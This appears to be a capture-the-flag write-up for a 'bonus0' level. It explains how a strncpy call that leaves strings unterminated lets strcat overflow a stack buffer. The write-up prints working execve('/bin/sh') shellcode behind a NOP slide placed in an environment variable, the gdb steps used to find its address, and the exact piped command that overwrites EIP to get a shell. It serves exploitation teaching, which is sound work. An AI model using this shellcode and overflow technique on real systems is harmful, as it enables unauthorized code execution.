 # Bonus 0

In pp we can see that a string is read into a 4096 characters size buffer and a NULL terminator replaces the first found newline and a call to strncpy.
`man strncpy` tells us that if there's no '\0' within n characters the string won't be NULL terminated. 
Which means we can blow past the 20 char limit and get strcat to return a + b + space char + b, overflowing the buffer in main.

```shell
(gdb) br *main+28
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
aaaaaaaaaaaaaaaaaaaaa
 -
bb
Breakpoint 1, 0x080485c0 in main ()
(gdb) x/s $esp+0x16
0xbffff6e6:      'a' <repeats 20 times>, "bb bb"
(gdb) c
Continuing.
aaaaaaaaaaaaaaaaaaaaabb bb
[Inferior 1 (process 5768) exited normally]
```
We can see that the b string is repeated twice.

## Using the env
Let's put our [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) after a safety NOP slide into the env, we'll try to replace its address with `EIP` afterwards.

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Let's now get its address within gdb and add some margin, this will keep it working even if the env changes slightly.

```shell
bonus0@RainFall:~$ gdb -q ./bonus0 
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xbffffd2c "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
```
The address of PWN in gdb's env is 0xbffffd2c, let's give ourselves a margin of 0x40 -> 0xBFFFFD6C.

Let's now replace EIP with that address.
```shell
bonus0@RainFall:~$ (python -c 'print "a"*20'; python -c 'print "b"*14 + "\x6c\xfd\xff\xbfa"'; cat -) | ./bonus0 
# The address is within the env to account for changes.
```
Bingo!
